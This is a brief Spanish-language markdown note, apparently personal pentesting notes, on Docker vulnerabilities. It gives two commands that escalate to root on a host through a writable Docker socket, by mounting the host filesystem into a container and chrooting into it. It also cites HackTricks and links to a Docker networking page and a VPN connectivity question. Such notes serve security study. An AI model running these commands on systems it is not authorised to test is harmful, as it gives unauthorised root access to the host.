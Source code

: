 x# Vulnerabilidades Docker


## Writable Docker Socket
- REferencia: https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-docker-socket

- Comandos:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
```
docker -H unix:///var/run/docker.sock run -v /:/host -it alpine chroot /host /bin/bash
```



Referencias
[REd de docker](https://docs.docker.com/network/network-tutorial-standalone/)


Problema>
No puedo acceder mi ocal host cuando estoy en la vpn en el contenedor
https://serverfault.com/questions/895278/not-able-to-access-to-the-internet-in-a-container-on-a-vpn



